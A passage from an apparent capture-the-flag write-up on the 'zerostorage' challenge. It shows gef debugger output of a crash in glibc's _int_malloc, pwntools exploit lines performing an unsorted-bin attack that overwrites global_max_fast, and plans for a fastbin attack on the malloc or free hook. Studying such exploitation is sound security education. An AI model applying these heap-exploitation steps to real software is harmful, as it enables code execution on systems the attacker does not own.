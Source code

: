 ```
─────────────────────────────────────────────────────────────────────────────[ code:i386:x86-64 ]────
   0x7f61e1b31e03 <_int_malloc+643> je     0x7f61e1b31fa0 <_int_malloc+1056>
   0x7f61e1b31e09 <_int_malloc+649> cmp    rbp, rsi
   0x7f61e1b31e0c <_int_malloc+652> mov    QWORD PTR [rbx+0x70], r15
 → 0x7f61e1b31e10 <_int_malloc+656> mov    QWORD PTR [r15+0x10], r12
   0x7f61e1b31e14 <_int_malloc+660> je     0x7f61e1b322c8 <_int_malloc+1864>
   0x7f61e1b31e1a <_int_malloc+666> cmp    rsi, 0x3ff
   0x7f61e1b31e21 <_int_malloc+673> jbe    0x7f61e1b31d80 <_int_malloc+512>
   0x7f61e1b31e27 <_int_malloc+679> mov    rax, rsi
   0x7f61e1b31e2a <_int_malloc+682> shr    rax, 0x6
──────────────────────────────────────────────────────────────────────────────────────[ threads ]────
[#0] Id 1, Name: "zerostorage", stopped, reason: SIGSEGV
────────────────────────────────────────────────────────────────────────────────────────[ trace ]────
[#0] 0x7f61e1b31e10 → Name: _int_malloc(av=0x7f61e1e74b20 <main_arena>, bytes=0x80)
[#1] 0x7f61e1b34dca → Name: __libc_calloc(n=<optimized out>, elem_size=<optimized out>)
[#2] 0x55a56f54d057 → test rax, rax
[#3] 0x55a56f54d9e6 → cmp eax, 0x3d3d3d3d
[#4] 0x55a56f54dc00 → (bad)
[#5] 0x55a56f54d910 → push r15
[#6] 0x55a56f54cd71 → xor ebp, ebp
[#7] 0x7ffff2ac8ee0 → add DWORD PTR [rax], eax
[#8] 0x55a56f54cd57 → jmp 0x55a56f54cc50
─────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤
```

As can be seen, the instruction that failed involved writing to an offset of 0x10 from r15. r15 holds all b's at this point, so we can see that it tried to write to the second pointer, the backwards pointer. The value that is being written is some libc address, which turns out to be the head of the unsorted bin list in libc. Let's modify our code to write to the global_max_fast instead, taking into account the offset of 0x10 as well:

```
edit(2, 0x20, "aaaaaaaa" + p64(global_max_fast-0x10) + "C"*0xf)

insert(0x20, "D"*0x1f)       # 0
target.interactive()
```

Now, we will run this and check what value is in the global_max_fast variable:

```
gef➤  x/gx &global_max_fast
0x7fc8cf93b7f8 <global_max_fast>:       0x00007fc8cf939b78
```

Awesome! Now the global_max_fast is a very large value, much larger than 0x80. That means that we can make fastbins of enormous size, so the minimum size of 0x80 is no longer an issue. As with any fastbin attack, we need to find a good place to create a fake fastbin, so we should look for an area that has a good fake size. The best target for a binary with full RELRO is the free hook or the malloc hook. 
